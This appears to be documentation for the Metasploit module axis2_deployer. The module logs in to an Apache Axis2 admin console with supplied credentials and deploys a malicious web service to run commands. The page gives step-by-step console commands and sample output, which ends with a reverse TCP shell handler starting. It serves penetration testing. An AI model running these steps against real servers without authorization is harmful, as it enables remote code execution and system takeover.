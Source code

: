 ## Description

This module logs in to an Axis2 Web Admin Module instance using a specific user/pass and uploads and executes commands via deploying a malicious web service by using SOAP.

## Axis2 Web Admin

The Apache Axis2 Web application has three main sections:'Services' lists all the available services deployed in this server, 'Validate' checks the system to see whether all the required libraries are in place and views the system information, and 'Administration' is the Axis2 Web Administration module which is the console for administering the Apache Axis2 installation. The Axis2 Web Administration module provides a way to configure Axis2 dynamically.

**IMPORTANT:** This dynamic configuration will NOT be persistent, i.e., if the servlet container is restarted, then all the dynamic configuration changes will be lost.

## Verification Steps

1. Do: ```use exploit/multi/http/axis2_deployer```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
3. Do: ```set USERNAME [Username]```
4. Do: ```set PASSWORD [Password]```
5. Do: ```run```

## Sample Output

```
msf > use exploit/multi/http/axis2_deployer
msf exploit(axis2_deployer) > set RHOST 10.10.155.37
RHOST => 10.10.155.37
msf exploit(axis2_deployer) > set RPORT 8080
RPORT => 8080
msf exploit(axis2_deployer) > set USERNAME admin
USERNAME => admin
msf exploit(axis2_deployer) > set PASSWORD admin123
PASSWORD => admin123
msf exploit(axis2_deployer) > show options

Module options (exploit/multi/http/axis2_deployer):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  admin123         no        The password for the specified username
   PATH      /axis2           yes       The URI path of the axis2 app (use /dswsbobje for SAP BusinessObjects)
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST     10.10.155.37     yes       The target address
   RPORT     8080             yes       The target port
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME  admin            no        The username to authenticate as
   VHOST                      no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Java

msf exploit(axis2_deployer) > exploit

[*] Started reverse TCP handler on 10.10.155.39:4444 

```
